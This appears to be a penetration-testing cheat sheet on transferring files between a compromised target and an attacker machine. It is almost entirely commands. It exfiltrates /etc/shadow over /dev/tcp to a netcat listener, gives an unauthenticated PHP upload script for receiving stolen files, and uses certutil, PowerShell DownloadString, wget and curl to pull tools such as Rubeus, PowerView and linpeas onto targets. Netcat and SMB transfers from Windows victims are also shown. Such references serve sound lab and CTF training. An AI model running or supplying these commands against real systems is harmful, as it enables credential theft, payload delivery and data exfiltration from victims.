 # Trasferring Files

## Linux Target -> Linux Attacker

### Without any tools

```bash
cat /etc/shadow > /dev/tcp/IP/PORT

nc -lvnp 4444 > exfiltrated_shadow
```

## All OS Target -> Linux Attacker

### HTTP Apache Server

```bash
# copy file to transfer in apache repo
cp /opt/Windows/windows-resources/binaries/nc.exe /var/www/html

# start apache service
systemctl start apache2

# Check Active internet connections
netstat -tulpn
```

### Setup Apache Server to Upload Files

One method of transfer file to attacker's machine is to set up an upload method that allow us to upload files through the Apache Server.

1. Create a .php file into '_/var/www/html_' with this body:

{% code title="upload.php" %}
```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```
{% endcode %}

2. Create the uploads directory to house our uploads.

```bash
mkdir /var/www/uploads
chown www-data:www-data /var/www/uploads
```

3. Make a request with a file to Apache Server

```bash
wget --post-file=/PATH/TO/$FILENAME  http://$ATT_IP/upload.php
curl -F 'file=@/PATH/TO/$FILENAME' http://$ATT_IP/upload.php
```



## Windows Targets -> Linux Attacker

### Python Server

```bash
# Attacker linux machine
python -m SimpleHTTPServer 80
python3 -m http.server 80

# Target machine
cd C:\
mkdir Temp
cd Temp

# 1
certutil -urlcache -f http://IP:80/file.exe file_name.exe

# 2
IEX(New-Object Net.WebClient).DownloadString("http://$IP:$PORT/file_name.exe")

# 3
IWR -Uri http://$IP/$FILENAME -OutFile C:\temp\$FILENAME
```

### SMB Server Impacket

_"This script will launch a SMB Server and add a share specified as an argument. You need to be root in order to bind to port 445. For optional authentication, it is possible to specify username and password or the NTLM hash. Example: smbserver.py -comment 'My share' TMP /tmp"_

<pre class="language-bash"><code class="lang-bash"># Att Kali Machine
cd /usr/share/doc/python3-impacket/examples
./smbserver.py $SHARE_NAME $(pwd) -smb2support

# from impacket tool 
impacket-smbserver smbFolder $(pwd) -smb2support

# Target machine
cp \\$ATT_IP\$SHARE_NAME\$FILENAME . # (ex. \\172.16.1.30\share\rubeus.exe .)
copy \\10.10.14.90\smbFolder\file.exe # ex
<strong>
</strong><strong># import a .ps1 module
</strong>. \\$ATT_IP\$SHARE_NAME\$FILENAME # (ex. \\172.16.1.30\share\PowerView.ps1)
</code></pre>



## Linux Targets -> Linux Attacker

### Python Server

{% code overflow="wrap" %}
```bash
# Attacker's machine
python -m SimpleHTTPServer 80
python3 -m http.server 80

# Target machine
## WGET
wget http://IP:80/file.py -O /tmp/$FILENAME
## CURL
curl $IP/$FILENAME -o /tmp/$FILENAME
# BASH
bash -c '{ echo -ne "GET /linpeas.sh HTTP/1.0\r\nhost: 172.16.1.30\r\n\r\n" 1>&3; cat 0<&3; } \
   3<>/dev/tcp/172.16.1.30/80 \
   | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > linpeas.sh'
```
{% endcode %}

### FTP Server

```bash
# Attacker's machine
python3 -m pyftpdlib -w -p 21

# Target machine
## get a file from att machine
ftp $ATT_IP
ftp> ls -l
ftp> get $FILENAME

## upload a file to att machine
ftp $ATT_IP
ftp> ls -l
ftp> put $LOCAL_FILENAME
ftp> ls -l
```

## Windows Target -> Linux Attacker

### Netcat

```bash
# attacker machine (who receives)
nc -lnvp PORT > file.txt

# windows target machine
nc64.exe -nv ATT_IP ATT_PORT < file.txt -w 15
```









## Trasfering file with NC.exe

[#send-files-via-nc](shells/#send-files-via-nc "mention")



## Resources

{% embed url="https://juggernaut-sec.com/linux-file-transfers-for-hackers/" %}

